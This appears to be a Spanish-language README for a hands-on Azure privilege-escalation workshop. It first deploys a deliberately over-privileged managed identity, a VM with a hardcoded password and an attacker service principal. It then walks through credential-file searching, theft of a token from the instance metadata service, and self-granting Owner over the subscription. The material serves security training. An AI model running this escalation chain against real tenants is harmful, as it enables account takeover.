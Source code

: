 # Escalada-de-Privilegios-en-Azure

# escenario 


# Arquitectura de referencia

![privilege escalation drawio](https://github.com/user-attachments/assets/65372600-4578-4617-b7be-b849b54db399)


## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción

subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada

identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
 
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM

vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM

sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"

echo $sp_credentials

echo "--------------------------------------------------------"




¡Importante! ejecuta el archivo create-lab.sh en la consola de azure para  desplegar todo lo anterior mencionado y ademas las herramientas que se utilizaran en la maquina virtual vulnerable.

## Fase 2: Ejecución de la Escalada de Privilegios 

hacemos busqueda de credenciales con el siguiente script:

find / -type f -iname "credentials*" 2>/dev/null -exec grep -iH "password" {} \;

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada

Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

  1. Obtener el token de acceso de la identidad, usando jq para extraerlo
     
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)

 
  
        
 2. Usar el token para realizar una llamada a la API de Azure y listar recursos

  Obtener nombre del grupo de recursos:

  az group list --output table  

 curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation/resources?api-version=2021-04-01"

  Copia el nombre de la identidad administrada y el nombre del grupo de recursos para ejecutar el siguiente script

  PRINCIPAL_ID=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query 'principalId' -o tsv)

  echo "Principal ID: $PRINCIPAL_ID"

  Despues comprueba con el ID  de la identidad administrada que rol tiene asignado ejecutando lo siguiente:
  
  az role assignment list --assignee "$PRINCIPAL_ID" --query "[].{Role:roleDefinitionName, Scope:scope}" -o table    
  

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.

A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"

consultamos el suscription ID con el siguiente comando:
az account list --output table

B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante

  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1


  Asignar el rol de Propietario al Object ID del atacante
  
  az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"

    
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

(En la máquina local) El atacante, ahora Owner, Consulta los grupos de recursos existentes.

Consultemos nuevamente que grupos de recursos existen 

az group list --output table

Ahora crea uno nuevo para comprobar los permisos:

az group create --name "prueba-de-control-total" --location "westus"

Vuelve a consultar para confirmar la creacion.

az group list --output table
